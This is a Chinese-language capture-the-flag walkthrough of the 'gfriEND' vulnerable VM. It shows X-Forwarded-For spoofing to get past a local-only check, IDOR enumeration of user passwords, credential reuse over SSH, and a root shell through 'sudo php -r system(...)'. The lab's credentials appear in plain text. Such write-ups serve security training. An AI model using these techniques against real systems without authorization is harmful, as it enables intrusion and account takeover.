 VMware双击打开，默认nat即可！

作者提示：
Description: This VM tells us that there are a couple of lovers namely Alice and Bob, where the couple was originally very romantic, but since Alice worked at a private company, "Ceban Corp", something has changed from Alice's attitude towards Bob like something is "hidden", And Bob asks for your help to get what Alice is hiding and get full access to the company!

--------------------------------------------
--------------------------------------------
1、nmap 192.168.253.0/24 -sP
MAC Address: 00:50:56:E1:B2:64 (VMware)
Nmap scan report for localhost (192.168.253.230)

--------------------------------------------
--------------------------------------------
2、nmap 192.168.253.230 -p- -A

22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Site doesn't have a title (text/html)

--------------------------------------------
--------------------------------------------
3、web信息收集

访问：http://192.168.253.230/   提示：
Who are you? Hacker? Sorry This Site Can Only Be Accessed local!
你是谁？ 黑客？ 抱歉，本站只能在本地访问！

查看静态页面提示：
<!-- Maybe you can search how to use x-forwarded-for --
提示需要用x-forwarded-for进行访问！

--------------------------------------------
--------------------------------------------
4、插件-X-Forwarded-For

火狐插件挂代理搜：X-Forwarded-For
下载：X-Forwarded-For Header

这时候在X-Forwarded-For插件添加：127.0.0.1

重新访问web可以正常访问了！

--------------------------------------------
--------------------------------------------
5、信息泄露

在注册页面注册了dayu用户密码，因为dirb、nikto、gobuster和wfuzz枚举出来的页面都没啥有用的信息！

注册用户名密码：dayu   尝试登录后：
http://192.168.253.230/index.php?page=dashboard&user_id=12

可以看到配置文件标题表示为user_id，对于dayu用户，它在URL中显示user-id=12！

来到Profile模块这里记录了账号和密码信息！尝试修改id：
http://192.168.253.230/index.php?page=profile&user_id=1
12改成了1，选择Profile，出现了eweuhtandingan用户名！

<input type="password" name="password" id="password" value="skuyatuh">
F12找到id处将password改为txt！
这时候将密文修改为txt明文：skuyatuh

id修改为：2
获得用户名：aingmaung 密码：qwerty!!!
。。。。
直到id5：
用户：alice，密码：4lic3

--------------------------------------------
--------------------------------------------
6、内部信息枚举

作者开始告知了Bob请求我们帮助获得Alice隐藏在公司的访问权限！

ssh alice@192.168.253.230
4lic3


1）Linux version 4.4.0-142
2）Sudo version 1.8.9p5
3）127.0.0.1:3306
4）User alice may run the following commands on gfriEND:
    (root) NOPASSWD: /usr/bin/php


grep -rn 'localhost' / 2>/dev/null | grep www
/var/www/html/config/config.php:3:    $conn = mysqli_connect('localhost', 'root', 'ctf_pasti_bisa', 'ceban_corp');

发现mysql用户名密码：
root
ctf_pasti_bisa


--------------------------------------------
--------------------------------------------
7、提权

1）通过枚举到的root用户密码直接登录root权限！


2）sudo -l
User alice may run the following commands on gfriEND:
    (root) NOPASSWD: /usr/bin/php

https://gtfobins.github.io/gtfobins/php/#suid

CMD="/bin/sh"
sudo php -r "system('$CMD');"

--------------------------------------------
--------------------------------------------
拓展小技巧：
打开burpsuite在Proxy模块中：
Option -> Match and Replace
Add -> Replace：X-Forwarded-For:localhost

这时候就可以访问了！













































































